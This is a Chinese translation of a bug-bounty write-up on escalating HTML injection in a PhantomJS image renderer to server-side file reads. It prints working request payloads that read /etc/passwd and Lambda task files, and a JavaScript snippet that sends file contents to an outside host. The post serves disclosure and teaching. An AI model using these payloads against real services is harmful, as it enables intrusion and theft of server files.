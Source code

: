 > 原文链接: https://www.anquanke.com//post/id/86371 


# 【技术分享】从PhantomJS图片渲染中的XSS漏洞到SSRF/本地文件读取漏洞


                                阅读量   
                                **183382**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：buer.haus
                                <br>原文地址：[http://buer.haus/2017/06/29/escalating-xss-in-phantomjs-image-rendering-to-ssrflocal-file-read/](http://buer.haus/2017/06/29/escalating-xss-in-phantomjs-image-rendering-to-ssrflocal-file-read/)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p5.ssl.qhimg.com/t01aca1bd49cc007573.png)](https://p5.ssl.qhimg.com/t01aca1bd49cc007573.png)

译者：[興趣使然的小胃](http://bobao.360.cn/member/contribute?uid=2819002922)

预估稿费：170RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿

<br>

**一、前言<br>**



最近我被邀请研究某个漏洞奖励项目，这个项目可以根据用户的输入生成一幅图片，以供用户下载。经过一段时间的探索，我找到了一条漏洞利用路径，可以利用图片内部的XSS漏洞最终实现服务器上本地任意文件的读取。这个项目涉及客户隐私，因此我会在保护隐私的前提下，尽可能详细地与大家分享技术细节。

<br>

**二、技术细节**



用户的正常请求遵循如下样式：

```
https://website/download?background=file.jpg&amp;author=Brett&amp;header=Test&amp;text=&amp;width=500&amp;height=500
```

服务器输出的文件如下所示：

[![](https://p5.ssl.qhimg.com/t0190000fbdd3a95f6d.png)](https://p5.ssl.qhimg.com/t0190000fbdd3a95f6d.png)

一开始时，我对请求URL中的background参数比较感兴趣，因为这个参数可以指定文件名，值得好好探索一番。然而经过仔细的研究，我发现真正存在漏洞的是header这个变量，该变量容易受到某种形式的HTML注入攻击的影响。我曾经学习过如何利用PDF文件内部的XSS漏洞触发严重漏洞的文章，因此我决定借鉴类似思路，进一步挖掘这个漏洞。

发送的请求如下：

```
https://website/download?background=file.jpg&amp;author=Brett&amp;header="&gt;&lt;u&gt;test&amp;text=&amp;width=500&amp;height=500
```

对应的输出为：

[![](https://p5.ssl.qhimg.com/t0153f798c36ab9feb2.png)](https://p5.ssl.qhimg.com/t0153f798c36ab9feb2.png)

将随机的HTML元素放到这个变量中后，我注意到大多数元素都会被成功渲染，比如iframe、img、script等。我决定以我自己的服务器为目标，看看能否获取更多信息，了解哪个程序在具体负责处理HTML数据。

发送的请求如下：

```
https://website/download?background=file.jpg&amp;author=Brett&amp;header=&lt;iframe src=https://xss.buer.haus/ssrftest&gt;&lt;/iframe&gt;&amp;text=&amp;width=500&amp;height=500
```

相应的输出为：

[![](https://p5.ssl.qhimg.com/t010d2d47caec6d23f6.png)](https://p5.ssl.qhimg.com/t010d2d47caec6d23f6.png)

在自己搭建的服务器上，我观察到如下信息：



```
[25/Jun/2017:20:31:49 -0400] "GET /ssrftest HTTP/1.1" 404 548 "-" "Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1"
```

请求报文中的User-Agent字段表明目标服务器使用的是PhantomJS这种无界面浏览器（headless browser）客户端来加载HTML页面并生成图片数据。我对Phantom已经有一定的基础，因为它经常出现在CTF比赛中，并且我在自研的在线扫描器中也用到了这个工具来对网页进行截屏。早点得到这个信息是件好事，因为它回答了我在挖掘这个项目的漏洞时遇到的一些问题。

我遇到的第一个问题就是无法通过基本的载荷来保持JavaScript的持续运行。&lt;script&gt;&lt;/script&gt;无法正确执行，而&lt;img src=x onerror=&gt;的触发结果又不能保持一致性。经过测试，我发现100次尝试中只有1次成功完成了window.location的重定向。在某些情况下，测试载荷完全不会执行。更为严重的是，当我尝试重定向到另一个页面时，服务器返回了某些异常信息。

发送的请求如下：



```
https://website/download?background=file.jpg&amp;author=Brett&amp;header=&lt;img src="x" onerror="window.location='https://xss.buer.haus/'" /&gt;&amp;text=&amp;width=500&amp;height=500
```

服务器的响应为：



```
`{`"message": "Internal server error"`}`.
```

我总共尝试了50种不同类型的载荷，最后才意识到问题应该出自于PhantomJS的某种条件竞争缺陷。之前我在开发网页扫描器时，需要为Phantom写一款插件，当时也碰到了类似的问题，当时我尝试对某些网页进行截屏，程序没有等到JavaScript完全加载就已经返回了结果。

我需要找到一种解决办法，使得Phantom在截图渲染完毕之前处于等待状态，直到JavaScript加载完成为止。经过多次尝试后，最终我通过document.write函数完全覆盖了页面内容，这种方法似乎解决了这一问题，虽然我没搞清具体的原因。

具体的请求如下：



```
https://website/download?background=file.jpg&amp;author=Brett&amp;header=&lt;img src="x" onerror="document.write('test')" /&gt;&amp;text=&amp;width=500&amp;height=500
```

服务器返回的响应为：

[![](https://p3.ssl.qhimg.com/t0134dedde052d5de65.png)](https://p3.ssl.qhimg.com/t0134dedde052d5de65.png)

此时此刻，对于每个页面的加载过程，我都能获得一致性的JavaScript执行结果。下一步我需要做的就是尽可能多地收集PhantomJS的信息，以及当前页面执行点所在的上下文内容及具体位置。

发送的请求如下：



```
https://website/download?background=file.jpg&amp;author=Brett&amp;header=&lt;img src="x" onerror="document.write(window.location)" /&gt;&amp;text=&amp;width=500&amp;height=500
```

服务器返回的响应如下：

[![](https://p5.ssl.qhimg.com/t0147d6a9825c1a4250.png)](https://p5.ssl.qhimg.com/t0147d6a9825c1a4250.png)

从响应消息中我们可以发现，当前我们的执行点源自于“file://”处，这是一个HTML文件，位于“/var/task/”目录中。现在我想测试一下我能否利用iframe方式引用这个文件，以确认我与“/var/task/”位于同一个源。

发送的请求如下：



```
https://website/download?background=file.jpg&amp;author=Brett&amp;header=&lt;img src="xasdasdasd" onerror="document.write('&lt;iframe src=file:///var/task/[redacted].html&gt;&lt;/iframe&gt;')"/&gt;&amp;text=&amp;width=500&amp;height=500
```

服务器返回的响应如下：

[![](https://p4.ssl.qhimg.com/t01686b8e2f58557e12.png)](https://p4.ssl.qhimg.com/t01686b8e2f58557e12.png)

现在我至少可以确定我能够加载“/var/task/”目录中的文件，因此接下来我想进一步确认是否能够加载其他目录（如/etc/目录）中的文件。

发送的载荷如下：



```
&amp;header=&lt;img src="xasdasdasd" onerror="document.write('&lt;iframe src=file:///etc/passwd&gt;&lt;/iframe&gt;')"/&gt;
```

然而服务器没有任何反馈。

我Google了一下“/var/tasks”，发现这个目录与AWS Lambda有关。根据搜索结果，我发现这个目录中存在某些文件，应该会包含Phantom插件的源代码，比如“/var/task/index.js”。我认为“/var/”目录中的这些文件可能会向我提供更多的信息，或者至少会包含某些值得分析的数据。

如果使用XHR技术、发送Ajax请求，我应该可以加载这些文件的内容，然后在图片中显示这些内容，或者将这些内容传输到我的服务器。当我想在document.write中直接使用这种JavaScript脚本时，我碰到了其他一些问题，最终我通过加载外部脚本的方式成功绕过了这些问题。

使用的载荷如下：



```
&amp;header=&lt;img src="xasdasdasd" onerror="document.write('&lt;script src="https://xss.buer.haus/test.js"&gt;&lt;/script&gt;')"/&gt;
```

test.js内容如下：



```
function reqListener () `{`
    var encoded = encodeURI(this.responseText);
    var b64 = btoa(this.responseText);
    var raw = this.responseText;
    document.write('&lt;iframe src="https://xss.buer.haus/exfil?data='+b64+'"&gt;&lt;/iframe&gt;');
`}` 
var oReq = new XMLHttpRequest(); 
oReq.addEventListener("load", reqListener); 
oReq.open("GET", "file:///var/task/[redacted].html"); 
oReq.send();
```

想在不暴露敏感信息的同时向大家展示结果是件很困难的事情，因此在这里我就随便以服务器中的访问日志为例，展示我们所能获取的数据信息：

 [![](https://p3.ssl.qhimg.com/t013e7bfbfa9987c7b7.png)](https://p3.ssl.qhimg.com/t013e7bfbfa9987c7b7.png)

因此，我们已经能够通过越界JavaScript以及XHR技术，脱离file://文件的束缚，实现任意文件的读取。现在让我们再次将脚本指向“/etc/passwd”，检查是否能够读取到iframe无法读取的信息：

[![](https://p2.ssl.qhimg.com/t019b9a70b19066916b.png)](https://p2.ssl.qhimg.com/t019b9a70b19066916b.png)

非常好！虽然PhantomJS无法通过&lt;iframe src=”file://”&gt;方式加载“file://”文件的内容，但我们通过XHR技术却能做到这一点。

从整个过程来看，虽然XSS载荷可能有些相形见绌，但我还是花了很多精力，做了很多猜测才走到这一步。这是非常古怪的一个奖励项目，我觉得整个过程像是在解决某个CTF挑战，而不是在挖掘生产服务器的漏洞。虽然整个周末我花了很多时间来解决这个难题，但至少还是有所收获的。


